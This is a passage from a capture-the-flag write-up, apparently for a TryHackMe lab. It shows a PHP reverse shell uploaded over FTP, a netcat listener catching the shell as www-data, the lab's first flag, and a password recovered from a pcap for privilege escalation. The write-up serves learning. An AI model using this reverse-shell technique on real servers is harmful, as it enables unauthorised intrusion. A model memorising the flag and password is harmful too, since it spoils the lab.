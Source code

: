 ```zsh
100% |*************************************|  5494       45.16 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (14.43 KiB/s)
ftp> exit
221 Goodbye.
```
### Exploitation
Now that the php reverse shell is uploaded to the server we just need to access the file from a web browser to execute it & catch the reverse shell using a listener.

Started the listener using netcat and fired the reverse shell by accessing `http://10.10.23.42/files/ftp/thm-rev.php`
```zsh
┌──(kali㉿kali)-[~/transfer]
└─$ nc -lnvp 4444    
listening on [any] 4444 ...
connect to [10.X.X.X] from (UNKNOWN) [10.10.23.42] 54304
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 07:53:14 up  1:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
And That's how I got the my sweet reverse shell. Then I quickly listed the dirs in current dir.
![root dir listing](ftp_root_dir.png)
I quickly saw the what's inside the `recipe.txt` and found the first flag.
```zsh
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```
> Flag 1 is love
{: .prompt-info }

### Privilege Escalation
Now I saw that there is another directory `incidents` whose owner is `www-data`. So I looked into it and found a file named `suspicious.pcapng`

Since I couldn't run any gui I thought of running `cat` on it.
```zsh
$ cd incidents
$ ls
suspicious.pcapng
$ cat suspicious.pcapng
```
![suspicious.pcapng file output](suspicious_output.png)
Here I found an amazing piece of information a password `c4ntg3t3n0ughsp1c3`
I also remembered the name I found earlier and tried the password for that user.
> Dumb me who didn't look into home dir because there is no user other than lennie in the home dir
{: .prompt-warning }
